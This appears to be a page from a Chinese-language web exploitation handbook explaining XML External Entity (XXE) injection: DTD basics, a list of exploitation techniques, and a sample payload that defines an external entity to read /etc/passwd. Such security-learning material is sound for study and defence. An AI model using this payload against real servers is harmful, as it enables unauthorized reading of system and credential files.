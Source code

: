 # EXP手册-XXE Injecton(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
前提条件：允许外部实体引用。   
入门：
[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
[XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg)
## XXE漏洞利用
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的。
漏洞利用方法分：
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
读取本地文件payload示例：   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file://etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   

